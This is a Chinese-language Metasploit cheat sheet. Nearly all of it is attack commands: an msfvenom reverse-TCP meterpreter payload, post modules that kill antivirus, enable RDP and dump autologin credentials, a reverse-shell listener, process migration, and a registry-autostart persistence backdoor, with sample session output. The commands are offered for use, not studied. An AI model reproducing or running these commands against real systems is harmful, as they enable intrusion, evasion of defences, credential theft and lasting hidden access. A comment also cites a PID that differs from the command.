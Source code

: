 **Linux**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.1.1.15 LPORT=6666 -f elf > msf.elf
```
# 后渗透模块（Post）

```bash
run post/windows/gather/checkvm		#检查目标是否虚拟机
run post/linux/gather/checkvm
run post/windows/manage/killav		#关闭杀软
run post/windows/manage/enable_rdp	#开启目标远程桌面
run post/windows/gather/enum_logged_on_users	#列举当前登陆用户，和最近登陆过的用户
run post/windows/gather/enum_applications		#列举应用程序
run windows/gather/credentials/windows_autologin#列举自动登陆的用户名和密码
```

MSF官方后渗透模块参考：https://www.offensive-security.com/metasploit-unleashed/post-module-reference/ 

# 监听反弹shell

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp    #payload要和持久化所用模块的payload对应
msf5 exploit(multi/handler) > set LHOST 10.1.1.15
msf5 exploit(multi/handler) > set LPORT 6666
msf5 exploit(multi/handler) > run
```

# Meterpreter
## 持久化
 刚获得`Meterpreter Shell`时，该Shell是极其脆弱的，可以把它和目标机中一个稳定的程序绑定
 

 
```bash
getpid			#查看当前Meterpreter Shell的进程号
ps				#获取目标机正运行的进程
migrate 476		#将shell迁移到PID为786的进程中
```
## Persistence模块
```bash
run persistence -h    #查看persistence模块帮助信息、参数。
-X    #在目标系统启动时运行后门。此选项将在 Windows 注册表中添加一个条目，
      #使后门在系统启动时自动执行。
-i    #连接尝试的时间间隔
-p    #lhost的监听端口
-r    #remote.监听者IP。
-S    #在目标系统上以系统权限（SYSTEM）运行后门。但是实战中应用此参数报错，原因未知。

#举例
run persistence -X -i 10 -p 12397 -r 192.168.34.132    
#若监听时一直报错，换个监听端口即可。
[*] Started reverse TCP handler on 10.100.130.180:4444 
[-] Command shell session 1 is not valid and will be closed 
[*] 10.100.131.192 - Command shell session 1 closed. 
[-] Command shell session 2 is not valid and will be closed 
[*] 10.100.131.192 - Command shell session 2 closed. 
[-] Command shell session 3 is not valid and will be closed 
[*] 10.100.131.192 - Command shell session 3 closed.
```